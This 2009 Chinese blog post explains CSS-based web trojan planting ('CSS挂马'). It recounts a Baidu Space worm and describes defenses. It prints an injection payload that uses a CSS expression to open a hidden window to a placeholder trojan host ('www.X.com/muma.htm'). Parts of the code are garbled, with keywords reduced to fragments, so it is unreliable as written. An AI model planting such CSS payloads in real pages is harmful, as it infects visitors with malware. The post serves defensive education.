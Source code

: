 ```yaml
---
title: 了解CSS挂马技术及相应防范方法
description: 黑客们发现发现，用来制作网页特效的CSS代码，也可以用来做CSS挂马。随着Web2.0的普及，各种网页特效用得越来越多，这也给黑客一个可乘之机。他们发现，用来制作网页特效的CSS代码，也可以用来挂马。而比较讽刺的是，CSS挂马方式其实是从防范E挂马的CSS代码演变而来。
date: 2009-02-09 09:45:02
category: 技术文章
tags: ['CSS', '技术类', '安全']
post_id: 777
alias: CSS-guama-fangfan
ViewNums: 2695
---
```


黑客们发现发现，用来制作网页特效的CSS代码，也可以用来做[**CSS挂马**](/blog/css-guama-fangfan)。

随着Web2.0的普及，各种网页特效用得越来越多，这也给黑客一个可乘之机。他们发现，用来制作网页特效的CSS代码，也可以用来挂马。而比较讽刺的是，[CSS挂马](/blog/css-guama-fangfan)方式其实是从防范E挂马的CSS代码演变而来。

**安天实验室阿楠：安全工程师，从事病毒分析多年。**

网站挂马的手段最初非常单一，但是随着Web2.0技术以及[Blog](/blog/)、Wiki等广泛的应用，挂马也涌现出各种各样的技术，其中[CSS挂马](/blog/css-guama-fangfan)方式，可以说是Web2.0时代黑客的最爱。有许多非常著名的网站都被黑客用CSS挂马入侵过。

在我印象中，记忆最深刻的一次是百度空间CSS挂马。当时，百度空间推出没有多久，就有许多百度用户收到了类似“哈，节日快乐呀!热烈庆祝2008，心情好好，记住要想我!http://hi.baidu.com/XXXXX”的站内消息。

由于网址是百度空间的网址，许多用户认为不会存在安全问题，加上又有可能是自己朋友发来的，因此会毫不犹豫地点击进入。但是进入指定的网址后，用户就会感染蠕虫病毒，并继续传播。

由于蠕虫扩散非常严重，最终导致百度空间不得不发布官方声明提醒用户，并且大费周折地在服务器中清除蠕虫的恶意代码。那一次的挂马事件利用的就是百 度空间CSS模板功能，通过变形的expression在CSS代码中动态执行脚本，让指定的远程恶意代码文件在后台悄悄运行并发送大量伪造信息。

我建议大家在点击陌生链接时，要多个心眼，大网站也是可能被挂马的。大家在上网时，最好还是使用一些带网页木马拦截功能的安全辅助工具。

**黑客为什么选择CSS挂马?**

在Web1.0时代，使用E挂马对于黑客而言，与其说是为了更好地实现木马的隐藏，倒不如说是无可奈何的一个选择。在简单的HTML网页和缺乏交互性的网站中，黑客可以利用的手段也非常有限，即使采取了复杂的伪装，也很容易被识破，还不如E来得直接和有效。

但如今交互式的Web2.0网站越来越多，允许用户设置与修改的博客、SNS社区等纷纷出现。这些互动性非常强的社区和博客中，往往会提供丰富的功能，并且会允许用户使用CSS层叠样式表来对网站的网页进行自由的修改，这促使了CSS挂马流行。

**小百科：**

CSS是层叠样式表(CascadingStyleSheets)的英文缩写。CSS最主要的目的是将文件的结构(用HTML或其他相关语言写的)与文件的显示分隔开来。这个分隔可以让文件的可读性得到加强、文件的结构更加灵活。

黑客在利用[CSS挂马](/blog/css-guama-fangfan)时，往往是借着网民对某些大网站的信任，将CSS恶意代码挂到博客或者其他支持CSS的网页中，当网民在访问该网页时恶意代码 就会执行。这就如同你去一家知名且证照齐全的大医院看病，你非常信任医院，但是你所看的门诊却已经被庸医外包了下来，并且打着医院的名义利用你的信任成功 欺骗了你。但是当你事后去找人算账时，医院此时也往往一脸无辜。对于安全工程师而言，CSS挂马的排查是必备常识。

**CSS挂马攻防实录**

攻CSS挂马方式较多，但主流的方式是通过有漏洞的博客或者SNS社交网站系统，将恶意的CSS代码写入支持CSS功能的个性化页面中。下面我们以典型的CSS挂马方式为例进行讲解。

方式1：

Body

“background-image”在CSS中的主要功能是用来定义页面的背景图片。这是最典型的CSS挂马方式，这段恶意代码主要是通过“background-image”配合t代码让网页木马悄悄地在用户的电脑中运行。

那如何将这段CSS恶意代码挂到正常的网页中去呢?黑客可以将生成好的网页木马放到自己指定的位置，然后将该段恶意代码写入挂马网站的网页中，或者挂马网页所调用的CSS文件中。

**小百科：**

使用Body对象元素，主要是为了让对象不再改变整个网页文档的内容，通过Body对象的控制，可以将内容或者效果控制在指定的大小内，如同使用DIV对象那样精确地设置大小。

**方式2：**

Body

background-image: url(t:open(”http://www.X.com/muma.htm“，”newwindow”，”border=”1″ Height=0， Width=0， top=1000， center=0， toolbar=no，menubar=no， scrollbars=no，resizable=no，location=no，status=no”))

方式1的CSS挂马技术，在运行时会出现空白的页面，影响网页访问者正常的访问，因此比较容易发现。不过在方式2中的这段代码，使用了t的Open 开窗，通过新开一个隐藏的窗口，在后台悄悄地运行新窗口并激活访问网页溢出木马页面，不会影响访问者观看网页内容，因此更加隐蔽。

防网络服务器被挂马，通常会出现防病毒软件告警之类的信息。由于漏洞不断更新，挂马种类时刻都在变换，通过客户端的反映来发现服务器是否被挂马往往疏漏较大。正确的做法是经常检查服务器日志，发现异常信息，经常检查网站代码，使用网页木马检测系统，进行排查。

目前除了使用以前的阻断弹出窗口防范CSS挂马之外，还可以在网页中设置CSS过滤，将CSS过滤掉。不过如果你选择过滤CSS的话，首先需要留意自己的相关网页是否有CSS的内容，因此我们仍然首推用阻断方式来防范CSS。阻断代码如下所示：

emiao1:expression(this.src=”about:blank”，this.outerHTML=”");

将外域的木马代码的src重写成本地IE404错误页面的地址，这样，外域的t代码不会被下载。不过阻断方式也有天生致命的弱点，弱点的秘密我们将于下次揭晓。

